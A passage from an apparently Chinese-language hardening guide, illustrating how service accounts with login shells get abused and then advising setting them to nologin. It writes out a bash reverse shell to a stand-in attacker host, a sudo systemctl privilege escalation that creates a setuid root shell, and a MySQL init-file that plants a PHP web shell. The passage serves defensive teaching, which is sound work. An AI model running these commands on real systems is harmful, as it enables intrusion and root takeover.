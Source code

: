 #### 場景1：Web應用攻擊
```bash
# 1. 攻擊者通過文件上傳漏洞獲得webshell
# 2. 執行系統命令，發現是www-data權限且有shell
whoami  # www-data
echo $SHELL  # /bin/bash (危險！應該是/sbin/nologin)

# 3. 建立反向shell
bash -c 'exec bash -i &>/dev/tcp/attacker.com/4444 <&1'

# 4. 在攻擊者機器上獲得穩定shell後
# 檢查sudo權限
sudo -l
# 發現：www-data ALL=(root) NOPASSWD: /usr/bin/systemctl restart apache2

# 5. 利用systemctl提權
sudo systemctl edit apache2
# 在編輯器中添加：
[Service]
ExecStartPre=+/bin/bash -c 'cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell'

# 6. 重啟服務觸發提權
sudo systemctl restart apache2
/tmp/rootshell -p  # 獲得root權限
```

#### 場景2：服務配置文件攻擊
```bash
# 1. 通過應用漏洞獲得mysql帳號權限
# 2. 發現mysql帳號有shell且可寫入配置目錄
ls -la /etc/mysql/conf.d/  # drwxrwxr-x mysql mysql

# 3. 建立惡意配置文件
cat > /etc/mysql/conf.d/backdoor.cnf << EOF
[mysqld]
init-file = /tmp/evil.sql
EOF

# 4. 建立惡意SQL文件
cat > /tmp/evil.sql << EOF
SELECT '<?php system(\$_GET["c"]); ?>' INTO OUTFILE '/var/www/html/backdoor.php';
EOF

# 5. 等待MySQL服務重啟，backdoor.php被創建
```

### 防護建議

#### 1. 系統配置強化
```bash
# 檢查所有系統帳號的shell設定
awk -F: '$3 < 1000 && $3 > 0 {print $1":"$7}' /etc/passwd

# 修正系統帳號shell
usermod -s /sbin/nologin www-data
usermod -s /sbin/nologin mysql
usermod -s /sbin/nologin redis
```
